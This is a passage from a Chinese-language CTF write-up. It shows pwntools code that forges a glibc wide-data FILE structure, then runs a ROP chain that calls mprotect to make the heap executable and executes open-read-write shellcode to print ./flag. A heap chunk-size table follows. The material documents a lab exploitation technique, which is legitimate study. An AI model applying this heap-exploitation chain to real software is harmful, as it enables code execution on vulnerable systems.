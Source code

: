 ```py
	0xe0:	p64(widedata_addr + 0xe8),                  # _IO_wide_data._IO_read_ptr
	0x150:	p64(magic_gadget),                          # 
}, filler=b'\0')

```

然后再在板子后面接上 orw，此处先调用 mprotect，修改 `heap_base_addr` ~ `heap_base_addr + 0x10000` 为rwx 后，跳到精心构造的 shellcode 执行. 该 shellcode 打开 `./flag` read 后将其标准输出

```py
orw =  b'./flag\x00\x00'
orw += p64(rdx_r12_c) + p64(0) + p64(start_addr - 0x10)
# 调用 mprotect, 修改 heap_base_addr ~ heap_base_addr + 0x10000 为rwx
orw += p64(rdi_c) + p64(heap_base_addr)
orw += p64(rsi_c) + p64(0x10000) 
orw += p64(rdx_r12_c) + p64(0x7) * 2
orw += p64(libc.symbols['mprotect'])
orw += p64(shell_addr)
''' long syscall(SYS_openat2, int dirfd, const char *pathname, struct open_how *how, size_t size); '''
orw += asm(shellcraft.openat2(-100, orw_addr, orw_addr + 0x1000, 0x18))
''' ssize_t read(int fd, void buf[.count], size_t count); '''
orw += asm(shellcraft.read(3, heap_base_addr + 0x10000, 0x50))
''' ssize_t write(int fd, const void buf[.count], size_t count); '''
''' write to stdout 1 '''
orw += asm(shellcraft.write(1, heap_base_addr + 0x10000, 0x50))
orw += asm(shellcraft.exit(0))

payload = struct_file + struct_widedata + orw

```

构造完毕后，需要将该 payload 填充到一个 large bin chunk 中. 

<table style="border:1px solid #2bbc8a;border-collapse: collapse" border="1">
  <tr>
    <td>Type</td>
    <td>Size</td>
  </tr>
  <tr>
    <td>Fast Chunk</td>
    <td>0x20 ~ 0x80</td>
  </tr>
  <tr>
    <td>Small Chunk</td>
    <td>< 0x400</td>
  </tr>
  <tr>
    <td>Large Chunk</td>
    <td>>= 0x400</td>
  </tr>
</table>
